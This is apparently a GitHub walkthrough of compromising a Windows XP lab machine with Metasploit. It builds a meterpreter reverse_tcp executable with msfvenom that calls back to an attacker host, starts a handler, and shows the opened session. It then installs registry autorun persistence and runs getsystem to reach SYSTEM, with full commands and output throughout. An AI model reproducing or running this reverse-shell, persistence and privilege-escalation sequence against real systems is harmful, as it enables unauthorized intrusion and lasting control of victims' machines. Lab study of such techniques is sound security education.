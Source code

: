# WindowsXp
In this I will explain how to bypass Windows Xp and make the attack persistence and do UAC bypass on the target machine.  

We will be doing this with the help of payload created in kali linux.

Steps to create payload in kali linux: 

1. In kali terminal 

┌──(bhavin㉿kali)-[~]
└─$ msfvenom -p windows/meterpreter/reverse_tcp  lhost=172.20.10.12 lport=1234 -f exe      -o bhavin1.exe 
                |                             |        |          |      |    |   |      |   |          |   
Syntax:-        | Type of palyoad             |        | Eth0 IP  |      |port|   |format|   | Filename |
                  
2. Payload will be created successfully if everything is correct.

3. Transfer the bhavin1.exe file to the target machine.

4. In kali open msfconsole

┌──(bhavin㉿kali)-[~]
└─$ msfconsole                                                                                          

5. use a epxloit 

msf6 > use exploit/multi/handler 

6. set exact same payload as used while creation of payload executable file.

msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp

7. use same lhost and lport 

msf6 exploit(multi/handler) > set lhost 172.20.10.12
lhost => 172.20.10.12

msf6 exploit(multi/handler) > set lport 1234
lport => 1234

8. exploit

msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 172.20.10.12:1234......

9. Double click the bhavin1.exe file in Windows Xp  

10. In kali

msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 172.20.10.12:1234 
[*] Sending stage (175686 bytes) to 172.20.10.5 {THIS IS THE TARGET'S IP}
[*] Meterpreter session 1 opened (172.20.10.12:1234 -> 172.20.10.5:1062) at 2023-01-31 18:55:02 +0530

meterpreter > 

11. To make persistence 

meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > search persistence

Matching Modules
================

   #   Name                                                  Disclosure Date  Rank       Check  Description
   -   ----                                                  ---------------  ----       -----  -----------
   0   exploit/linux/local/apt_package_manager_persistence   1999-03-09       excellent  No     APT Package Manager Persistence                                                                                                                             
   1   exploit/windows/local/ps_wmi_exec                     2012-08-19       excellent  No     Authenticated WMI Exec via Powershell
   2   exploit/linux/local/autostart_persistence             2006-02-13       excellent  No     Autostart Desktop Item Persistence                                                                                                                          
   3   exploit/linux/local/bash_profile_persistence          1989-06-08       normal     No     Bash Profile Persistence
   4   exploit/linux/local/cron_persistence                  1979-07-01       excellent  No     Cron Persistence
   5   exploit/osx/local/persistence                         2012-04-01       excellent  No     Mac OS X Persistent Payload Installer
   6   exploit/osx/local/sudo_password_bypass                2013-02-28       normal     Yes    Mac OS X Sudo Password Bypass
   7   exploit/windows/local/vss_persistence                 2011-10-21       excellent  No     Persistent Payload in Windows Volume Shadow Copy
   8   auxiliary/server/regsvr32_command_delivery_server                      normal     No     Regsvr32.exe (.sct) Command Delivery Server
   9   post/linux/manage/sshkey_persistence                                   excellent  No     SSH Key Persistence
   10  post/windows/manage/sshkey_persistence                                 good       No     SSH Key Persistence
   11  exploit/linux/local/service_persistence               1983-01-01       excellent  No     Service Persistence
   12  exploit/windows/local/wmi_persistence                 2017-06-06       normal     No     WMI Event Subscription Persistence                                                                                                                          
   13  post/windows/gather/enum_ad_managedby_groups                           normal     No     Windows Gather Active Directory Managed Groups
   14  post/windows/manage/persistence_exe                                    normal     No     Windows Manage Persistent EXE Payload Installer
   15  exploit/windows/local/s4u_persistence                 2013-01-02       excellent  No     Windows Manage User Level Persistent Payload Installer
   16  exploit/windows/local/persistence                     2011-10-19       excellent  No     Windows Persistent Registry Startup Payload Installer
   17  exploit/windows/local/persistence_service             2018-10-20       excellent  No     Windows Persistent Service Installer
   18  exploit/windows/local/registry_persistence            2015-07-01       excellent  Yes    Windows Registry Only Persistence                                                                                                                           
   19  exploit/windows/local/persistence_image_exec_options  2008-06-28       excellent  No     Windows Silent Process Exit Persistence                                                                                                                     
   20  exploit/linux/local/yum_package_manager_persistence   2003-12-17       excellent  No     Yum Package Manager Persistence                                                                                                                             
   21  exploit/unix/local/at_persistence                     1997-01-01       excellent  Yes    at(1) Persistence
   22  exploit/linux/local/rc_local_persistence              1980-10-01       excellent  No     rc.local Persistence


Interact with a module by name or index. For example info 22, use 22 or use exploit/linux/local/rc_local_persistence

msf6 exploit(multi/handler) > use 14

12. set the options 

msf6 post(windows/manage/persistence_exe) > set REXEPATH bhavin1.exe
REXEPATH => bhavin1.exe
msf6 post(windows/manage/persistence_exe) > set session 1
session => 1
msf6 post(windows/manage/persistence_exe) > 

13. 
  msf6 post(windows/manage/persistence_exe) > run 

[*] Running module against 91976-XPYB9EVFX
[*] Reading Payload from file /home/bhavin/Desktop/bhavin1.exe
[+] Persistent Script written to C:\DOCUME~1\ADMINI~1\LOCALS~1\Temp\default.exe
[*] Executing script C:\DOCUME~1\ADMINI~1\LOCALS~1\Temp\default.exe
[+] Agent executed with PID 2256
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\EiZoknktMR
[+] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\EiZoknktMR
[*] Cleanup Meterpreter RC File: /home/bhavin/.msf4/logs/persistence/91976-XPYB9EVFX_20230131.0252/91976-XPYB9EVFX_20230131.0252.rc
[*] Meterpreter session 2 opened (172.20.10.12:1234 -> 172.20.10.5:1065) at 2023-01-31 19:02:22 +0530

14. UAC bypass 
  
 msf6 post(windows/manage/persistence_exe) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid 
Server username: 91976-XPYB9EVFX\Administrator
meterpreter > getsystem 
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > 





